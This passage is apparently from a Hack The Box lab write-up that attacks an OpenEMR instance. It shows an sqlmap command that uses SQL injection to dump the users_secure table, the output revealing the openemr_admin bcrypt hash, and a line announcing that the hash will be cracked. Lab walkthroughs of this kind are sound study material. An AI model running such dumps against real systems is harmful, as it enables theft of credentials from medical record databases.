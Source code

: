 ```console
....
| therapy_groups_counselors             |
| therapy_groups_participant_attendance |   
| therapy_groups_participants           |                                               
| transactions                          |                                               
| user_settings                         |                                               
| users                                 |                                                                                                                                       
| users_facility                        |                                               
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |                                                                                                                                       
+---------------------------------------+  
```
There are a lot of tables here. But the blog post from earlier specified that the juicy information are stored in table **users_secure**.

### Contents of users_secure
```console
local@local:~/Documents/htb/boxes/cache$ /opt/sqlmap-dev/sqlmap.py -r cache.req -D openemr -T users_secure --dump
Database: openemr        
Table: users_secure                        
[1 entry]                                   
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+                                                                                                                                          
| id   | salt                           | username      | password                                                     | last_update         | salt_history2 | salt_history1 | password_history2 | password_history1 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+                                                  
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |                                                  
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+     
```
### Flags used
*   -D to specify the database name
*   -T to specify the table name
*   --dump to get the content of that table

And we got a username and a password hash.
```
openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.
```
So let's try and crack this hash.
